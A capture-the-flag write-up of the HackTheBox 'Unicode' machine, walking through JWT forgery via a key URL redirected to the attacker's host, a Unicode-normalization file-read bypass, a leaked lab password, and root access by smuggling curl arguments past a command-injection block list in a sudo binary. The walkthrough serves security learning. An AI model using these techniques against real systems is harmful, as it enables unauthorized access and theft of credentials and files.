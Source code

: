```yaml
---
title: Unicode writeup
date: 2022-07-17 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["medium-box", "jwt", "reversing"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/unicode/
image: # Thumbnail 
  src: Unicode.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Summary
This box focuses on exploiting an authentication system using a jwt with an insecure jku parameter. After this, we can do unicode normalization to gain lfi, which will allow us to get a password. We can then get the root flag by reversing a python binary.
## Foothold
We start out by doing an nmap port scan:

```console
# Nmap 7.92 scan initiated Sat Mar  5 14:59:22 2022 as: nmap -sC -sV -Pn -o nmap/ini.txt 10.129.151.92
Nmap scan report for 10.129.151.92
Host is up (0.078s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
|_  256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Hackmedia
|_http-generator: Hugo 0.83.1
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  5 14:59:33 2022 -- 1 IP address (1 host up) scanned in 10.57 seconds
```
Port 80 and 22 are open. WE start by checking out their website hosted on port 80:

![](welcome.png)

We can then create a user and login.

![](welcome2.png)

When we login, we can check our cookies and see that we are given a jwt for authentication. We can check out how this jwt is formed via [jwt.io](https://jwt.io). 

![](jwt.png)

As we can see, the jwt uses an rku, which is essentially a URL to somewhere on the website which contains a public key in JSON format that is used to validate the token. 

![](rku.png)
_The rku file_

WE can go to [mkjwk](https://mkjwk.org) to make our own public key, and then change the jwt in `jwt.io` so that the user field is `admin`, and the `rku` URL is `http://hackmedia.htb/static/../redirect?url=10.10.14.13/jwks2.json`:

![](mkjwk.png)

![](jwt2.png)

When we then use this jwt in our browser, we can see on our http server that the site is requesting our key, and using it to validate our jwt. This gives us access to the admin dashboard.

![](dash.png)

In the dashboard we can request to see a report, however we are jsut informed that it is being prepared and to check back later. If we try to access other files than the pdf, we get told they do a lot of input filtering:

![](lfi_denied.png)

Instead of trying to do lfi with the classic payloads starting with `../../../` and so on, we can do unicode normalization. More on this [here](https://lazarv.com/posts/unicode-normalization-vulnerabilities/). We use the unicode character `︰`, which normalizes to `..`, we can bypass the filtering and we have lfi.

![](lfi_access.png)

If we read the file located at `/etc/nginx/sites-available/default`, we find that the web root is `/home/code/app`, and that a password is being taken from a file named `db.yaml`. There is also a directory named `/home/code/coder`. We can then read the file `/home/code/coder/db.yaml`

![](lfi_db.png)

We can then login as the user `code` with the credentials: `code:B3stC0d3r2021@@!` 


## Privilege escalation
If we run `sudo -l`, we can tell that we have sudo rights to `/usr/bin/treport`. This is a binary file, and íf we run it, we can tell that the binary uses curl to download a threat report from a URL that we can supply. If we download the binary, and then use pyinstxtractor to extract the `pyc` files from the binary, we can reverse the binary. I use pycdc.
```python
# Source Generated with Decompyle++
# File: treport.pyc (Python 3.10)

Unsupported opcode: <255>
import os
import sys
from datetime import datetime
import re

class threat_report:
    
    def create(self):
Unsupported opcode: <255>
        file_name = input('Enter the filename:')
        content = input('Enter the report:')
    # WARNING: Decompyle incomplete

    
    def list_files(self):
        file_list = os.listdir('/root/reports/')
        files_in_dir = ' '.join((lambda .0: [ str(elem) for elem in .0 ])(file_list))
        print('ALL THE THREAT REPORTS:')
        print(files_in_dir)

    
    def read_file(self):
Unsupported opcode: <255>
        file_name = input('\nEnter the filename:')
    # WARNING: Decompyle incomplete

    
    def download(self):
Warning: block stack is not empty!
        now = datetime.now()
        current_time = now.strftime('%H_%M_%S')
        command_injection_list = [
            '$',
            '`',
            ';',
            '&',
            '|',
            '||',
            '>',
            '<',
            '?',
            "'",
            '@',
            '#',
            '$',
            '%',
            '^',
            '(',
            ')']
        ip = input('Enter the IP/file_name:')
        res = bool(re.search('\\s', ip))
        if res:
            print('INVALID IP')
            sys.exit(0)
            if 'file' in ip and 'gopher' in ip or 'mysql' in ip:
                print('INVALID URL')
                sys.exit(0)
                for vars in command_injection_list:
                    print('NOT ALLOWED')
                    sys.exit(0)
                cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
                os.system(cmd)
                return None


# WARNING: Decompyle incomplete
```
As we can see, there is a blacklist of symbols in the code, however we can use `{}` and `,`. To get the root flag we can supply the ip `{--config,/root/root.txt}`. Since the root flag is not  a valid config file for curl, it will print the contents to stdout while throwing errors. This can be used to read the flag:
```console
code@code:~$ sudo /usr/bin/treport 
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:{--config,/root/root.txt}
Warning: /root/root.txt:1: warning: 'ee93e256d4878cfc8759ffdb5711067c' is 
Warning: unknown
curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information

```
Rooted!